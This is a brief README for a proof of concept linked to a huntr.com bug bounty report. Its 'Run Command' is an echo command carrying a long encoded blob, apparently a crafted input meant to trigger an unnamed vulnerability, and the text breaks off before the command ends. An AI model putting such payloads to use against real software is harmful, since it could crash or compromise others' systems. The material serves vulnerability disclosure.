 # README

## POC URL
https://huntr.com/bounties/aa80adb7-e900-44a5-ad05-91f3ccdfc81e


## Run Command
echo -ne "VlowMFcwMOEwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwEDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwADAwMDAwMCEAADAhAAAwMAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMAAw
MDAwMDAiAAAwIgAAMDAAADAwMAAwMDAwMDAwMDAwMDAwMDAAMDAwMDAwADAwIgAAsCIAADAwAAAw
ADAwMDAwMDAwMDAwMDAwMDAwADAwMAAwMDAwMDAwADAwIjAwMCIwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMGEwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAMDAw
ADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMAAwMAAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAOAAAwFgAAMDAAADAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwADAAADAsAAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAADAw
AAAwMAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwRwAAMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAAMAAAMGEAADAwAAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwADAwMDAwMDAAADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwAAAAAAAAMBkwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAAAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMBkAADAiAAAAMAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwAAAwMBgAMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMBsAAAAnAAAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
AAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAADAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMAAwMBgAMDAAADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwADAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMBkAADA3MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwAAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMBgAADAQ
AAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDDZMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAMDAwMDAwMDAwGAAAWAAAADAwAAAwMAAwMDAwMDAwMDAw
MDAwMDAwADAwMDAwADAwMAAAADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDCt
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMAAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMAcwMDAwAAAwMAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAZAAAwGTAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwGQAAMBkAADAwAAAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAAADAaAAAwGgAAMDAwMDAwMDAwMDAwMDAwMDAw